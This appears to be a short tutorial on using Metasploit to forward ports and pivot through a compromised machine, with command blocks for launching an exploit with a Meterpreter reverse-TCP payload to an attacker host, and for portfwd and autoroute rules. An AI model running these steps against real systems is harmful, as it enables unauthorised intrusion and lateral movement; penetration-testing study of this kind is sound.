 Metasploit provides built-in tools to establish port forwarding through compromised machines.

## Steps to Forward Ports with Metasploit

#### Set Up a Meterpreter Session

After compromising a target, establish a Meterpreter session:
```bash
msfconsole
use exploit/<exploit_name>
set RHOST <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <port>
exploit
```

#### Add Port Forwarding Rules

Once in the Meterpreter session, you can set up port forwarding using the `portfwd` command.

| Option | Description                                                     |
| ------ | --------------------------------------------------------------- |
| `-l`   | The port on your attacking machine (local port).                |
| `-p`   | The port on the target system you want to access (remote port). |
| `-r`   | The target IP or internal host behind the compromised machine.  |

```bash
portfwd add -l <local_port> -p <target_port> -r <target_ip>
```

## Pivoting with Port Forwarding

Port forwarding can also be used for pivoting into deeper parts of the network.

#### Add Routes to Access Other Subnets

1. Use the `autoroute` command to add a route to another subnet:

```bash
run autoroute -s <subnet_ip>/<subnet_mask>
```

2. Forward ports to services in the pivoted network:
```bash
portfwd add -l <local_port> -p <target_port> -r <target_ip>
```